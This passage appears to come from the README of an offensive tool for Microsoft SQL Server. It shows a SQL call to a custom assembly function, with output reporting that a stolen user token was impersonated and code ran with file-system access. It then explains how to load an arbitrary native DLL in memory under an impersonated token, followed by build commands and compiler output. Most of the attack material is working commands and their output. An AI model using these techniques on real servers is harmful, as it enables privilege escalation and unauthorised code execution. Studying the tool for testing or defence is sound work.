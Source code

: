 ```
[SQL] > SELECT dbo.qdvtTjNG('1056', 'r1191197344');                                                                                                                                                                                                                       
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
[+] Impersonated!
[!] Assembly loaded, now executing:

[+] Accessing C:\ from loaded assembly!
C:\$Recycle.Bin
C:\Config.Msi
C:\Documents and Settings
C:\PerfLogs
C:\Program Files

<SNIP>
```

### Impersonate and run unmanaged DLL

This option allows you to load and execute any native DLL impersonating the security context of one of the tokens available in the process' memory. The provided DLL must comply with the following requirement:

* It must contain an exported function called  ```Run```. This function will implement all the logic to be executed after impersonating the selected user token.

To manually map native DLLs this tool uses https://github.com/schellingb/DLLFromMemory-net.

A template for the native DLL is provided in `unmanaged/testdll/testdll.sln project`.

As always we begin by performing the necessary assembly compilations according to our option.

```
$ .\build.ps1 -option unmanaged
[+] Compiling unmanaged DLL loader assembly and unmanaged DLL loader + impersonating assembly...
Microsoft (R) Visual C# Compiler version 4.8.9037.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

Microsoft (R) Visual C# Compiler version 4.8.9037.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240


Capacity MaxCapacity Length
-------- ----------- ------
     216  2147483647    152
   53824  2147483647  48616
```
Then we can compile the unmanaged DLL `unmanaged/testdll/testdll.sln` using Visual Studio.
